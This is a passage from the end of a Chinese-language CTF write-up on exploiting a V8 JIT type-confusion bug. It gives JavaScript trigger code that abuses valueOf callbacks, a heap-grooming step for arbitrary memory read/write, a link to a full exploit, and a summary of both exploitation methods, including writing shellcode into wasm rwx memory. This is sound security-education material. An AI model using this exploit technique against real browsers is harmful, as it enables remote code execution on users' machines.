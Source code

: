 ```
        let b0 = `{`
            valueOf: function()`{`
                return 22223333;
            `}`
        `}`
        let b = `{`
            valueOf: function()`{`
                victim_obj.__defineGetter__('xx',()=&gt;2);
                victim_obj.__defineGetter__('xx',()=&gt;2);
                for (var i = 0; i &lt; 1024 * 1024 * 16; i++)`{`
                    new String();
                `}`
                return 888888889999;
            `}`
        `}`
        let arr_t = [1.1,1.2,1.3,1.4,1.5,1.6];
        foo4vul(12345,b0,arr_t,`{`x:1,y:2,z:3,l:4,a:5,b:6,c:7,d:8,e:9`}`);
        foo4vul(12345,b0,arr_t,`{`x:1,y:2,z:3,l:4,a:5,b:6,c:7,d:8,e:9`}`);
        foo4vul(12345,b,arr,victim_obj);
    `}`

    trigger_vul();
```

后续只需要在申请一个ArrayBuffer、marker，让它也移动到`old space`，依据特征查找处偏移即可做到任意地址读写，仍然按照上一种利用思路中获取wasm的rwx地址的方式，写入shellcode即可。

```
// 0xdead and 0xbeef is special
    marker = `{`a:0xdead,b:0xbeef,c:f`}`;
    // 0x222 is special
    ab = new ArrayBuffer(0x222);
    gc();
```

[完整exp在这里](https://github.com/e3pem/CTF/blob/master/xnuca2019_jit/exp2.js)

利用效果：

[![](https://p5.ssl.qhimg.com/t01c96b6e265a4b1ce5.png)](https://p5.ssl.qhimg.com/t01c96b6e265a4b1ce5.png)



## 总结

我们通过对源码的分析结合其他题目的利用方式先找到了漏洞的触发方式，然后再从源码的角度详细的跟踪了触发漏洞的回调函数具体调用路径，并且以此找到了3中定义回调函数的方式，分别是：定义toPrimitive属性；定义valueOf；定义toString。利用该漏洞可以造成类型混淆，然后介绍了两种利用方式来对这道题进行利用，分别是：伪造`ArrayBuffer map`，进一步伪造可用于任意地址读写的`ArrayBuffer`；将对象从`fast mode`转变成`dictionary mode`，然后移至`old space`，此时对象会发生收缩，但优化代码仍然会按照原来的方式读写对象的属性，也既越界读写其他对象的内容，构造合适的内存排布，越界写`JSArray`对象的length字段来构造OOB，进而实现任意地址读写。



## 参考
